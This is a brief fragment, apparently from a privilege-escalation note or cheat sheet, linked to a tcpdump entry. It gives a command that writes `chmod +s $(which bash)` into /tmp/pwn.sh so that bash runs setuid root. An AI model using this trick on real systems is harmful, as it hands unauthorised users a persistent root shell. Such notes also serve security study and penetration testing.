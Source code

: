 - if you have execute permissions as root, you can do as this [[tcpdump]]. which is `echo 'chmod +s $(which bash)' > /tmp/pwn.sh`.